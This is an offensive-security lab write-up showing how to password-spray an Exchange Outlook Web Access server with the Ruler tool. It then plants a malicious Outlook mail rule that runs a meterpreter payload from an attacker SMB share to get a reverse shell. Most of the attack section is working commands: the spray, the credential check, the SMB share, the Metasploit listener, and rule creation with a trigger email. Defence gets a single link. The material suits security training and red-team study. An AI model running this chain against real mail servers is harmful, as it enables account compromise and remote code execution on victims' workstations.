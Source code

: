# Password Spraying Outlook Web Access: Remote Shell

## Context

This lab looks at an attacking technique called password spraying as well as abusing Outlook Web Application by exploiting mail rules to get a remote shell using a tool called `Ruler`.

## Defininitions

**Password spraying** is a form of password brute-forcing attack. In password spraying, an attacker \(with the help of a tool\) cycles through a list of possible usernames \(found using OSINT techniques against a target company or other means\) with a couple of most commonly used weak passwords. 

In comparison, a traditional brute-force works by selecting a username from the list and trying all the passwords in the wordlist against that username. Once all passwords are exhausted for that user name, another username is chosen from the list and the process repeats.

Password spraying could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| ben | Winter2018 |
| ... | Winter2018 |
| john | December2018! |
| ben | December2018! |
| ... | December2018! |

Standard password brute-forcing could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| john | Winter2018! |
| john | Password1 |
| ben | Winter2018 |
| ben | Winter2018! |
| ben | Password1 |

## Password Spraying

Let's try doing a password spray against an Exchange 2016 server in a `offense.local` domain:

{% tabs %}
{% tab title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-23-15-09-03.png)

![](../../.gitbook/assets/peek-2018-12-23-15-07.gif)

The above shows that password spray was successful against the user `spotless` who used a weak password `123456`.

Note, that if you are attempting to replicate this technique in your own labs, you may need to update your `/etc/hosts` to point to your Exchange server:

![](../../.gitbook/assets/screenshot-from-2018-12-23-15-08-18.png)

## Getting a Shell via Malicious Email Rule

### Process Overview

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage `Ruler` to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

A high level overwiew of how the spraying and remote code execution works:

* assume you have obtained working credentials during the spray for the user `spotless@offense.local`
* with the help of `Ruler`, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of: `if emailSubject contains` **`someTriggerWord`**_`start`_**`pathToSomeProgram`**
* A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`
* User `spotless` logs on to his/her workstation and launches Outlook client to check for new email
* Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in `pathToSomeProgram` which is pointing to a malicious payload giving a reverse shell to the attacker

### Execution

Let's validate the compromised credentials are working by checking if there are any email rules created already:

{% tabs %}
{% tab title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```
{% endtab %}
{% endtabs %}

The below suggests the credentials are working and that no mail rules are set for this account yet:

![](../../.gitbook/assets/screenshot-from-2018-12-23-17-15-36.png)

To carry out the attack further, I've generated a reverse meterpreter payload and saved it as a windows executable in `/root/tools/evilm64.exe` 

We now need to create an SMB share that is accessible to our victim host and point it to the location where our payload evilm64.exe is located:

{% tabs %}
{% tab title="attacker@kali" %}
```csharp
smbserver.py tools /root/tools/
```
{% endtab %}
{% endtabs %}

Next, we setup a metasploit listener to catch the incoming reverse shell:

{% tabs %}
{% tab title="attacker@kali" %}
```csharp
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```
{% endtab %}
{% endtabs %}

Finally, we fire up the ruler and create the malicious email rule:

{% tabs %}
{% tab title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```
{% endtab %}
{% endtabs %}

Below shows the entire attack and all of the steps mentioned above in action - note how the compromised mailbox does not even get to see the malicious email coming in:

![](../../.gitbook/assets/peek-2018-12-23-18-13.gif)

Below shows the actual malicious rule that got created as part of the attack - note the `subject` and the `start` properties - we specified them in the ruler command:

![](../../.gitbook/assets/screenshot-from-2018-12-23-18-17-10.png)

If you want to delete the malicious email rule, do this:

{% tabs %}
{% tab title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```
{% endtab %}
{% endtabs %}

## Detection & Mitigation

{% embed url="https://www.microsoft.com/en-us/microsoft-365/blog/2018/03/05/azure-ad-and-adfs-best-practices-defending-against-password-spray-attacks/" %}

## References

{% embed url="https://github.com/sensepost/ruler/wiki" %}

{% embed url="https://silentbreaksecurity.com/malicious-outlook-rules/" %}

{% embed url="https://labs.mwrinfosecurity.com/blog/malicous-outlook-rules/" %}

{% embed url="https://www.blackhillsinfosec.com/introducing-mailsniper-a-tool-for-searching-every-users-email-for-sensitive-data/" %}



